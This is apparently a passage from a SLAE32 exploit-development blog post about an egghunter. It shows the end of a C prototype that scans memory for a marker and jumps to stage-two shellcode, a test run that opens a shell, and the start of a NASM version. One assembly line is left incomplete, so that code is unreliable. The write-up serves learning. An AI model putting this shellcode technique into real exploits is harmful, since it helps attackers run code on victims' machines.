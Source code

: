 ```c
                                // Jump to shellcode
                                int (*ret)() = (int(*)())addr+8;
                                ret();
                        }
                        // Egg not found, keep going one byte at a time
                        addr++;
        } else {
                        // EFAULT on access, skip to next memory page
                        addr = addr + 4095;
                }
        }
}
```

Now, it's time to test the egghunter C prototype. Because the buffer containing the 2nd stage of the shellcode is located on the stack and the egghunter will jump to that memory location once it finds the egg, the `-z execstack` argument must be passed to the gcc compiler to make the stack executable otherwise it'll just segfault after jumping.
```
slemire@slae:~/slae32/assignment3$ ./egghunter_c
Egg found at: 3221221888l DEADDEAD, jumping to shellcode (8 bytes ahead of egg address)...
$ id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Nice, now let's build the assembly version with NASM.

### Assembly version of the egghunter
-------------------------------------

First, registers are cleared and the egg is moved in `$esi`. We'll use that register later when we compare memory content against the egg.

The `mul ecx` instruction is a little trick to reduce shellcode size: It multiplies `$eax` by `$ecx` (which was already zeroed out with the `xor` instruction), and the results are stored in both `$eax` and `$edx`. So basically with a single instruction, we can null out both `$eax` and `$edx`.

```nasm
    ; Zero registers
    xor eax, eax
    xor 
    xor ecx, ecx            ; ecx = 0
    mul ecx                 ; eax = 0, edx = 0
    mov esi, 0xdeadbeef     ; our egg: 0xDEADBEEF
```

The `$edx` register is used to keep track of the memory address being read. To check is memory is accessible, `access` is used at follows:

```nasm
    ; check if we can read the memory
    xor eax, eax
    mov al, 0x21            ; sys_access
    lea ebx, [edx+8]        ; const char __user *filename
    int 0x80                ; sys_access
    cmp al, 0xf2            ; Check if we have an EFAULT
    jz next_page            ; jump to next page if a fault is raised
```    
